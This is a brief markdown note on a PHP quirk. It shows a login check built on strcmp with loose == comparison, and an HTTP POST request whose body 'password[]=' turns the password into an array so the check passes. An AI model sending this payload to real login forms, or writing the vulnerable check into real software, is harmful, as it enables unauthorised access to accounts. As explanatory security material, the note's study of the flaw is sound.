 # PHP Quirks

## strcmp

According to PHP manual strcmp function returns following values:
Returns < 0 if str1 is less than str2; > 0 if str1 is greater than str2, and 0 if they are equal.

```php
<?php
    if(isset($_POST['password']))
    {   $password = $_POST['password'];
        if(strcmp($password, $actual_password)==0)
        {
            echo "YOU WON!";
        }
    }
?>
```

However, it is possible to manipulate the result of the strcmp function execution:

*Input as an Array*

Request:
```
POST / HTTP/1.1
Host: reverse-shell.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

password[]=
```

```
strcmp($secret, $_POST['password']) returns 0
```
